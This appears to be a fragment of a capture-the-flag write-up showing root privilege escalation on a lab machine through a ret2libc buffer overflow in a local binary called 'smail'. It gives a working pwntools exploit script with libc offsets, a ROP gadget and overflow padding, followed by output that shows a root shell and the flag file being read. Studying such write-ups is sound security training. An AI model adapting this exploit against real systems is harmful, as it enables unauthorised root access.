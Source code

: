 ```
carlJ@incognito:~/mailing$ ./smail
What do you wanna do
1-Send Message
2-Change your Signature

```

This binary is vulnerable to ret2libc buffer overflow

by using this python code we will got root 

```
from pwn import *

p = process('./smail')

libc_base = 0x7ffff79e2000
system = libc_base + 0x4f550
binsh= libc_base + 0x1b3e1a

POPRDI=0x4007f3

payload = b'A' * 72
payload += p64(0x400556)
payload += p64(POPRDI)
payload += p64(binsh)
payload += p64(system)
payload += p64(0x0)

p.clean()
p.sendline("2")
p.clean()
p.sendline(payload)
p.interactive()
```
# root flag

```
carlJ@incognito:~/mailing$ python3 overflow.py 
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/carlJ/.cache/.pwntools-cache-3.6/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[!] An issue occurred while checking PyPI
[*] You have the latest version of Pwntools (4.4.0)
[+] Starting local process './smail': pid 15073
[*] Switching to interactive mode
Changed
$ id
uid=0(root) gid=1002(carlJ) groups=1002(carlJ)
$ cd /root
$ ls
root.txt
$ cat root.txt
f2197[hidden]]84143ab2
$  

```
# Thanks
